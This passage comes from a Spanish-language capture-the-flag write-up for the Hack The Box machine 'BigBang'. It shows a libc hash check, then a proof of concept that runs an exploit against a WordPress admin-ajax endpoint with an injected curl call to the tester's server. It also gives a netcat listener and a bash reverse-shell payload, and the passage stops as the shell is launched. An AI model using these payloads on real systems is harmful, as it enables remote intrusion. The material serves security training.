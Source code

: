 Para validar la transferencia, podemos calcular el hash `MD5` correspondiente al archivo

~~~ bash
# Atacante
md5sum libc.so.6

# Docker
root@2431b1b14659:/# md5sum /lib/x86_64-linux-gnu/libc.so.6
~~~

Ambos archivos deberían devolver el mismo hash `md5`. En el caso de que sea diferente, es posible que haya ocurrido un error en la transferencia

~~~
93283f4792e89ca473d0593b04f10c09
~~~

### Proof of Concept

Probaremos el exploit para comprobar que la explotación funciona. En el siguiente ejemplo, enviaremos una solicitud HTTP a un servidor controlado por nosotros (recuerda levantar el servidor antes de ejecutar el siguiente comando)

~~~ bash
python3 exploit.py "http://blog.bigbang.htb/wp-admin/admin-ajax.php" "curl http://10.10.15.9/test"
~~~

A la hora de ejecutar el exploit, deberíamos recibir la solicitud HTTP al recurso `test`, que no existe, ¡esto es lo que esperábamos exactamente :D!

~~~ bash
python3 -m http.server 80                                                                                                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.52 - - [03/May/2025 12:03:23] code 404, message File not found
10.10.11.52 - - [03/May/2025 12:03:23] "GET /test HTTP/1.1" 404 -
~~~

### Exploiting

Una vez tenemos la librería en nuestro directorio actual de trabajo, lanzaremos el ataque. Primeramente pondremos un puerto a la escucha para recibir una conexión por un puerto, en mi caso el `443`

~~~ bash
nc -lvnp 443
~~~

Aprovecharemos la capacidad para ejecutar comandos para enviarnos una consola usando el siguiente payload

~~~ bash
bash -c 'bash -i >& /dev/tcp/$tun0_ip/$port 0>&1'
~~~

## Shell as `www-data` - Container

Con el puerto preparado para recibir la conexión, lanzaremos el exploit que nos envíe una shell a nuestra IP por el puerto `443`
